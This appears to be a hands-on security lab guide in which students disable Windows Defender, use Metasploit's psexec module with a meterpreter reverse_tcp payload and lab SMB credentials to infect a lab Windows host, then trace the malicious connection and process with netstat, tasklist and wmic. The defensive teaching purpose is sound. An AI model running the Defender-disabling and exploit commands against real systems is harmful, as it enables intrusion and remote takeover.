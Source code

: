 

# Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a Terminal as Administrator

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a Kali instance by clicking the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

==####NOTE#####==
If you are having trouble with **Windows Terminal**, start each terminal directly from the** Windows Start button**. 

Click the Windows Start button in the lower left of your screen and type the following. 


`Powershell` 

or 

`Ubuntu`

or 

`Command Prompt` 

 

For **PowerShell** and **Command Prompt**, please right click on them and select **Run As Administrator**

==###END NOTE###==

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

`Set-MpPreference -DisableRealtimeMonitoring $true`

![](attachments/windowscli_disabledefender.png)

Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means **Defender** was disabled.  We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Now that we disabled **Windows Defender**, we can head back to our **Kali** terminal.

Within the terminal, please run the following command:

`ifconfig`>

![](attachments/windowscli_ifconfig.png)

Please note the IP address of **==your==** Ethernet adapter. 

Please note that my adapter is called **eth0** and my IP address is **172.26.19.133.**   

==**Your IP Address and adapter name may be different.**==

Please note your IP address for the **ADHD Linux system** on a piece of paper:

We need to gain root access within our **Kali** terminal. To do that, run the following command:

`sudo su -`

Next, we will start the **Metasploit** handler with the following command:

`msfconsole -q`

It will take a second to connect, be patient!
When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

`use exploit/windows/smb/psexec`

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

`set PAYLOAD windows/meterpreter/reverse_tcp`

We also need to set the RHOST IP by using the following command:

`set RHOST 10.10.1.209`

![](attachments/windowscli_sets.png)

Remember, your IP will be different!

Next, we need to set the SMB username and password. 

`set SMBUSER Administrator`

`set SMBPASS T@GEq5%r2XJh`

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

`exploit`

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Run the following command in a Windows Powershell 
`netstat -naob`

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

now we see our last connection with the port 4444.

Let's get the Process ID **(PID)** from the above screenshot so we can dig a little deeper.

![](attachments/windowscli_pid.png)

Now, let's dive in!

First we will start with tasklist  

`tasklist /m /fi "pid eq PID"`

==**YOUR PID WILL BE DIFFERENT!**==

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

`wmic process where processid=PID get commandline`

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

`wmic process get name,parentprocessid,processid | select-string PID`

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process
>We found its parent process ID.  
>We did a search on that process ID.  
>As you can see above, it was launched by the cmd.exe process.  
>Note that the search we just did may turn up some other things launched by the command line as well.










 

